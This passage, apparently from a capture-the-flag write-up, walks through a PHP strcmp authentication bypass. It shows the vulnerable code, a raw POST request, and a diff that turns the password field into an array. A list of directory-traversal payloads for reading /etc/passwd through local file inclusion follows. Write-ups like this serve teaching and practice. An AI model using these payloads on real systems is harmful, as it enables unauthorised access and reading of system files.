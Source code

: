 ```text
```

The `/admin` page contained a login form that could potentially be the exploitation point to use a `strcmp` exploit that was found in the ftp service.


### Exploitation {#exploitation}

From the `index.php.bak` page.

```php
if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
```

Using `strcmp`  for a string validation is exploitable.
With Burpsuite the `password` variable can be turned into an array.
That array will be evaluated to a `NULL`, which will become a `O` due to a bug in using `==`.

```text
POST /admin/index.php?login=1 HTTP/1.1
Host: 192.168.107.101
Content-Length: 32
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.107.101
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.107.101/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh
Connection: close

username=admin&password=password
```

The way this was done was by changing the POST request.

```diff
-username=admin&password=password
+username=admin&password[]=""
```

{{< figure src="/ox-hugo/potato-welcome.png" caption="<span class=\"figure-number\">Figure 1: </span>Successful login" >}}

This gave access to the back end of the site.
The pages seemed to have local file inclusion vulnerabilities.
This was tested with Burpsuite by supplying a series of relative paths to the `passwd` file in Burpsuite intruder.

```text
../etc/passwd
../../etc/passwd
../../../etc/passwd
../../../../etc/passwd
../../../../../etc/passwd
../../../../../../etc/passwd
../../../../../../../etc/passwd
```
